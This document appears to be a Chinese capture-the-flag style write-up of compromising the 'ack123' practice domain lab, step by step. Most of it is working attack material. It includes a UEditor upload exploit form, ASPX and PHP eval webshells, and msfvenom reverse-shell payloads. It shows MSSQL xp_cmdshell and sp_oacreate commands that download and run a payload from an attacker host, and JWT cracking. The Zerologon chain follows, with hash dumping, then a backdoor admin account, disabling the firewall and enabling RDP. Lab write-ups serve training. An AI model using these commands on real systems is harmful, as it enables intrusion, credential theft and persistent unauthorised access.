

# 暗月靶场 & ack123

## 0x00 环境搭建

由于是本地服务器搭建，因此采用虚拟机搭建靶机，域内其他主机作为攻击机，需要注意该靶场需要绑定域名，利用`IP`无法访问。


## 0x01 外网打点

- `Dirsearch`扫描结果


- `Nmap`扫描结果，发现`21`端口存在`FTP`服务，`999`端口存在`phpMyAdmin`。


尝试爆破`admin`用户的密码未果，注册普通用户查看后台，存在`Ueditor 1.4.3`，该版本存在漏洞。

下载`HDHCMS`相关源码，发现在`Admin/net/controller.ashx`中存在`Ueditor`相关内容，打`Ueditor`编辑器上传漏洞即可。

```html
# attack.html
<form action="http://www.ackmoon.com/Admin/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
 <p>shell addr: <input type="text" name="source[]" /></p>
 <input type="submit" value="Submit" />
</form>
```

```c#
<%@ Page Language="Jscript"%><%eval(Request.Item["h3"],"unsafe");%>
```

攻击机起一个`Python`服务，上传恶意图片马`Webshell`，`http://192.168.31.206:8888/shell.png?.aspx`，上传成功后会返回`Webshell`的地址。



`Server-Web1`当前用户为`iis apppool\ackmoon`，需要提权到高权限，存在两张网卡`192.168.22.128`和`192.168.31.186`。


查看一下运行进程，发现存在`360`全家桶和护卫神。


这里利用`360`免杀马上线`MSF`，先生成一个简单的`MSF`马，再在这基础上做免杀，上线后直接`getsystem`提权到`NT AUTHORITY\SYSTEM`。

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.206 lport=5555 -f exe -o h3.exe
```


进程迁移一下，实现持久化来维持权限。

```powershell
# 查看目标设备中运行的进程
ps
# 查看当前的进程ID
getpid
# 绑定目标进程ID
migrate ID
```


在`Administrator`用户桌面获取到`flag1`。


## 0x02 横向渗透

利用`fscan`来搜集网段其它主机信息，探测`192.168.22.1`网段。


```text
192.168.22.133:445 open
192.168.22.129:445 open
192.168.22.129:3306 open
192.168.22.128:3306 open
192.168.22.133:1433 open
192.168.22.128:445 open
192.168.22.1:445 open
192.168.22.133:139 open
192.168.22.129:139 open
192.168.22.128:139 open
192.168.22.1:139 open
192.168.22.133:135 open
192.168.22.129:135 open
192.168.22.128:135 open
192.168.22.1:135 open
192.168.22.133:80 open
192.168.22.129:80 open
192.168.22.128:80 open
192.168.22.128:21 open
[*] alive ports len is: 19
start vulscan
[*] NetInfo:
[*]192.168.22.128
   [->]12server-web1
   [->]192.168.22.128
   [->]192.168.31.186
[*] NetInfo:
[*]192.168.22.129
   [->]12server-web2
   [->]10.10.10.131
   [->]192.168.22.129
[*] NetInfo:
[*]192.168.22.133
   [->]12server-data1
   [->]192.168.22.133
   [->]192.168.31.62
[*] NetInfo:
[*]192.168.22.1
   [->]Liu
   [->]192.168.110.1
   [->]10.10.10.1
   [->]192.168.52.1
   [->]192.168.93.1
   [->]192.168.111.1
   [->]192.168.31.42
   [->]192.168.22.1
   [->]172.28.96.1
   [->]172.26.0.1
   [->]192.168.74.1
[*] NetBios: 192.168.22.128  WORKGROUP\12server-web1             Windows Server 2012 R2 Standard 9600
[*] WebTitle: http://192.168.22.133     code:404 len:315    title:Not Found
[*] WebTitle: http://192.168.22.129     code:200 len:4301   title:演示：JWT实战：使用axios+PHP实现登录认证
[*] NetBios: 192.168.22.1    WORKGROUP\LIU                 
[*] NetBios: 192.168.22.133  WORKGROUP\12server-data1            Windows Server 2012 R2 Standard 9600
[*] NetBios: 192.168.22.129  12server-web2.ack123.com            Windows Server 2012 R2 Standard 9600
```

发现`Server-Data1`存在`MSSQL`服务，在`Server-Web1`主机的`C:\Hws.com\HwsHostMaster\wwwroot\www.ackmoon.com\web\HdhApp.config`文件中找到`MSSQL`的配置信息。

```
192.168.22.133
sa/pass123@.com
```


利用`Stowaway`进行代理，利用`Navicat`连接上数据库。

```
# 攻击机
./macos_arm64_admin -l 9999 -s H3rmesk1t
# 跳板机
agent.exe -c "192.168.31.206:9999" -s H3rmesk1t
```


尝试利用`xp_cmdshell`来攻击`Server-Data1`，参考文章[Mssql数据库命令执行总结](https://xz.aliyun.com/t/7534)。

```sql
# 判断xp_cmdshell状态，存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# 利用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami'

# 恢复被删除的xp_cmdshell，可以利用xplog70.dll恢复被删除的xp_cmdshell
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

目标机器存在火绒，没法直接下载马子，这里参考文章[记一次利用mssql上线](https://xz.aliyun.com/t/9265)中的攻击手法，利用`sp_oacreate`来上线马子。


补充一下针对`Mssql`数据库命令执行中对于`COM`组件利用的手法，借助`Sql Server`中的`COM`组件`SP_OACREATE`来执行系统命令，利用前提条件：
- `Mssql`数据库服务未降权
- 已获取到数据库密码

```sql
# 判断SP_OACREATE状态，存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# 启用SP_OACREATE
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;

# 利用SP_OACREATE执行命令，该方式无回显
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```

绕过思路（免杀火绒的马子）：

```sql
# 将certutil.exe复制到C:\Windows\Temp\目录下并重命名
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# 远程下载马子
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/222.exe" C:\Windows\Temp\222.exe'

# 利用forfiles来运行马子
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\222.exe';
```

上线`MSF`后，利用`getsystem`提权到`NT AUTHORITY\SYSTEM`。


在`C:\Users\Administrator`目录下获取到`flag1`。


接着对`Server-Web2`开放的`WEB`服务进行攻击，网站名字叫`JWT`实战，抓包，利用`demo`用户登录后发现存在`X-token`。


利用`hashcat`尝试爆破`HMACSHA256`的密钥，得到密钥为`Qweasdzxc5`。

```bash
hashcat -m 16500 jwt.txt -a 0 rockyou.txt
```


利用爆破出来的密钥，伪造`JWT`后成功以`admin`用户登录，但是登录后并没有发现什么可利用点。


扫描后台后发现存在`phpmyadmin4.8.5`目录，用户名密码为`root`/`Qweasdzxc5`，利用日志写入来`getshell`。

```sql
# 看查有无直接写入权限
show global variables like '%secure_file_priv%';

# 查看日志文件情况
show global variables like "%genera%";

# 开启日志记录
set global general_log='on';

# 日志文件导出指定目录
set global general_log_file='C:\\phpstudy_pro\\WWW\\h3.php';

# 写入一句话目录
select '<?php @eval($_REQUEST["cmd"]);?>';

# 痕迹清理，修改回原来的路径并关闭记录
set global general_log_file='原路径';
set global general_log=off;
```

连上蚁剑，直接是`nt authority\system`权限，在`C:\Users\Administrator\Desktop\flag03.txt`文件中获取到`flag3`。


查看一下网络信息，发现存在域环境。


依旧还是先上线`MSF`，接着上传一下`fscan`收集一下网段信息。

```powershell
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=5558 -f exe -o 555.exe

set payload windows/x64/meterpreter/bind_tcp
set lport 5558
set rhost 192.168.22.129
```

```
10.10.10.135:445 open
10.10.10.131:445 open
10.10.10.135:3306 open
10.10.10.131:3306 open
10.10.10.1:445 open
10.10.10.133:445 open
10.10.10.1:139 open
10.10.10.133:139 open
10.10.10.135:139 open
10.10.10.131:139 open
10.10.10.133:135 open
10.10.10.135:135 open
10.10.10.1:135 open
10.10.10.131:135 open
10.10.10.131:80 open
10.10.10.133:88 open
10.10.10.1:9999 open
[*] alive ports len is: 17
start vulscan
[*] NetInfo:
[*]10.10.10.131
   [->]12server-web2
   [->]10.10.10.131
   [->]192.168.22.129
[*] WebTitle: http://10.10.10.131       code:200 len:4301   title:演示：JWT实战：使用axios+PHP实现登录认证
[*] NetInfo:
[*]10.10.10.1
   [->]Liu
   [->]192.168.110.1
   [->]10.10.10.1
   [->]192.168.52.1
   [->]192.168.93.1
   [->]192.168.111.1
   [->]192.168.31.42
   [->]192.168.22.1
   [->]172.28.96.1
   [->]172.26.0.1
   [->]192.168.74.1
[+] 10.10.10.133	MS17-010	(Windows Server 2016 Standard 14393)
[*] NetInfo:
[*]10.10.10.135
   [->]12server-data2
   [->]192.168.74.129
   [->]10.10.10.135
[*] NetInfo:
[*]10.10.10.133
   [->]16server-dc1
   [->]10.10.10.133
[*] NetBios: 10.10.10.131    12server-web2.ack123.com            Windows Server 2012 R2 Standard 9600
[*] WebTitle: http://10.10.10.1:9999    code:200 len:1108   title:Directory listing for /
[+] InfoScan: http://10.10.10.1:9999    [目录遍历] 
[*] NetBios: 10.10.10.1      WORKGROUP\LIU                 
[*] NetBios: 10.10.10.135    12server-data2.ack123.com           Windows Server 2012 R2 Standard 9600
```

域控为`10.10.10.133`，且存在`MS17-010`漏洞，`run post/multi/manage/autoroute`后尝试打但是一直会把域控打蓝屏导致利用失败，测试`Netlogon`漏洞，发现也存在。


这里利用`Netlogon`漏洞来直接打域控：

```bash
# 漏洞验证
python zerologon_tester.py DC_NETBIOS_NAME DC_IP_ADDR

# 置空DC的密码
python cve-2020-1472-exploit.py DC_NETBIOS_NAME DC_IP_ADDR

# 获取HASH，使用impacket包中的secretsdum.py来获取相关的HASH
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass

# 获取shell，获取HASH后，可以利用wmiexec.py登录，从而获取SHELL 
python wmiexec.py -hashes <HASH> DOMAIN/DOMAIN_USER@DC_IP_ADDR
```


```bash
# 恢复原HASH，执行以下命令，获取SAM中原来的HASH
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
exit

# 解析HASH，执行如下命令，利用secretsdump.py解析保存在本地的NTHASH
python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

# 恢复HASH
python reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR <ORI_HASH>

# 验证是否恢复
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass
```


接着利用`wmiexec.py`获取到的`Shell`添加一个用户到管理员组，然后关闭防火墙，开启`3389`远程登录。

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.133

net user admin QWEasd123!@# /add
net localgroup administrators admin /add

netsh advfirewall set allprofiles state off
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```


在`C:\Users\Administrator\Desktop`目录下获取到`flag5`。


由于已经获取到了域内`Administrator`用户的`hash`，这里直接横向到`Server-Data2`，关闭防火墙后，利用之前拿下的`WEB2`服务作为中间服务，将马子放在上面，通过`certutil`下载马子，上线`MSF`。

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.135

netsh advfirewall set allprofiles state off

C:\Windows\System32\certutil.exe -urlcache -split -f http://10.10.10.131/666.exe C:\666.exe
```

在`C:\Users\Administrator\Desktop`目录下获取到`flag4`


## 0x03 总结

至此，整个靶场所有服务器权限都已获取，获取最终域控权限的利用方式很多，这里只用了一种，还可以利用爆破`krbtgt`或者`mimikatz`抓`hash`的方式来获取，做横向也可以用注入黄金票据、`PTH`等来实现。

流程：
1. 利用`Server-Web1`网站存在的`Ueditor 1.4.3`漏洞植入`Webshell`，获取网站权限，上线`MSF`提权至`system`权限
2. 通过查找配置文件，获取`Server-Data1`的`MSSQL`数据库账号密码，并结合`COM`组件`SP_OACREATE`来执行系统命令，上线`MSF`提权至`system`权限
3. 利用`Server-Web2`网站存在的`JWT`漏洞，爆破`HMACSHA256`的密钥后获取到`phpmyadmin`的密码，结合日志写入的方式`Getshell`
4. 利用`Netlogon`漏洞打域控，拿到域内`Administrator`用户的`hash`，添加后门用户，关防火墙，开远程桌面，上线`MSF`
5. 利用获取到到的域内`Administrator`用户的`hash`，直接WMIC横向到`Server-Data2`，上线`MSF`


